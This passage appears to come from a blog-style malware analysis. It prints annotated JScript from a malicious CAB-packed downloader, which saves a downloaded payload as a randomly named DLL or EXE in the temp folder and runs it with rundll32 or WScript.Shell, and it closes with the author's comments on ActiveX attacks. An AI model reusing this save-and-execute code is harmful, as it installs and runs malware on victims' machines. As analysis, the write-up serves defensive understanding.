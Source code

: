 ```
                ADODBStreamActiveXObject.write(responseBody);

                // The script creates a file with a random name on the temp folder (constant value 2)
                var specialFolder = ScriptingFileSystemObject.getspecialfolder(2);
                var randomNumber = get_random_number();
                if (0 == file_extension_flag) {
                    var extension = "dll";
                } else {
                    extension = "exe";
                }
                var path = specialFolder + "\\" + randomNumber + "." + extension;

                // They dump the contents of the ADODB stream there
                ADODBStreamActiveXObject.savetofile(path);
                ADODBStreamActiveXObject.close();

                // And finally the downloaded code is run locally with the wscript.shell ActiveX object.
                switch (file_extension_flag) {
                    case 0:
                        WScriptShell.run("rundll32" + " " + path + " " + argument_to_rundll32, 1, 0);
                        break;
                    case 1:
                        WScriptShell.run(path, 1, 0);
                }
                array_of_checked_urls[identifier_number] = 1;
            }
        }
    }
}
```

So yeah! There you have it, again the same old ActiveX code-execution-without-even-exploiting-anything deal. I find it really insane that this sort of attack works at all, given it is a javascript file, inside a cab file, that requires you to have a Windows machine with a browser or mail client exposing ActiveX wide open.

Any guesses on why they keep trying this over and over? Maybe it's targeted towards markets like the chinese, where Windows XP is still widely used?

Anyway, as always, I hope you found this fun and thanks for keeping with me until the end here. Have fun!
